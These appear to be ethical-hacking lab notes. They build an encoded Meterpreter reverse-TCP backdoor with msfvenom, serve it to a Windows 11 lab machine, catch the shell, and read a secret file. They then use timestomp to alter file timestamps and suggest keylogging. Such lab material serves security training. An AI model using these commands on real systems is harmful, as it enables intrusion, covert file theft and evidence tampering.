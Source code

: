 ----------

- Task 2: **Hack a Windows machine using Metasploit and perform post-exploitation using Meterpreter**

[Windows11]

	create secret.txt, add conetnt "My credit card numer is 3412321312"

[parrot]

	 Create a backdoor file
	 msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=10.10.1.13 -f exe > /home/attacker/Desktop/Backdoor.exe
Share this file with victim machine(same way)- start apache server

	msfconsole
	use exploit/multi/handler 
	set payload windows/meterperter/reverse_tcp
	set LHOST 10.10.1.13
	show options -> see all params are set properly
	exploit -j -z
	
	[windows 11]	
	http://10.10.1.13/share
	download backdoor.exe, make sure this file is placed at same location as that of secrete file
	run backdoor.exe

	[parrot]
	meterpreter session is started on parrot machine
	sessions -i 1
	sysinfo
	ipconfig
	getuid
	pwd -> To view current working dir, this diff based on where you have stored backdoor.exe
	ls
	cat secret.txt

Change the **MACE** attributes of the **Secret.txt** file.

[Note: While performing post-exploitation activities, an attacker tries to access files to read their contents. Upon doing so, the MACE (modified, accessed, created, entry) attributes immediately change, which indicates to the file user or owner that someone has read or modified the information.
Note: To leave no trace of these MACE attributes, use the timestomp command to change the attributes as you wish after accessing a file.]

	meterpreter>timestomp Secret.txt -v
	timestomp Secret.txt -m “02/11/2018 08:10:03” ->Changes the **Modified** value of the **Secret.txt** file.
	timestomp Secret.txt -v -> Verify
	cd c:/
	search -f [filename] pagefile.sys  -> takes 5 mnts

Have successfully exploited the system, you can perform post-exploitation maneuvers such as key-logging.
[parrot]
